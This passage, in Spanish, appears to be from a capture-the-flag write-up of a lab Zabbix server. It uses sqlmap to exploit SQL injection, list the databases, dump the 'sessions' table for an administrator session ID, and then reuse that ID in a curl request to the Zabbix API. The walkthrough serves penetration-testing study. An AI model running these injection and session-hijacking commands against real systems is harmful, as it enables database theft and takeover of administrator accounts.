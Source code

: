 ```bash
sqlmap -r archivo_sqli --dbs
```

Es importante que pongamos bien las opciones cuando nos lo pregunta el programa:

![image](../zimages/Pasted_image_20250413183307.png)

Una vez realizado el ataque, nos da las 2 bases de datos existentes junto con el payload utilizado:

![image](../zimages/Pasted_image_20250413183348.png)

Ahora, utilizando los parámetros `-D` para especificar una base de datos a usar y `--tables` para buscar tablas dentro de esa base de datos, nos saca un montón de tablas, entre ellas una llamada "sessions", que es la que nos interesa, con SQLMap, vamos a dumpearla en nuestra máquina atacante para poder ver su contenido:

```bash
sqlmap -r archivo_sqli -D "zabbix" -T "sessions" --dump
```

Nos dumpea un sessionid del usuario administrador:

![image](../zimages/Pasted_image_20250413191116.png)

Ahora con esto ya podemos ejecutar peticiones a la web como administrador:

```bash
curl -s -X POST -H 'Content-Type: application/json-rpc' -d '{"jsonrpc":"2.0", "method": "user.checkAuthentication", "params":{"sessionid": "11f25fd4b82d863cfd26519405b05a0c"}, "id": 1}' http://10.10.11.50/zabbix/api_jsonrpc.php | jq
```
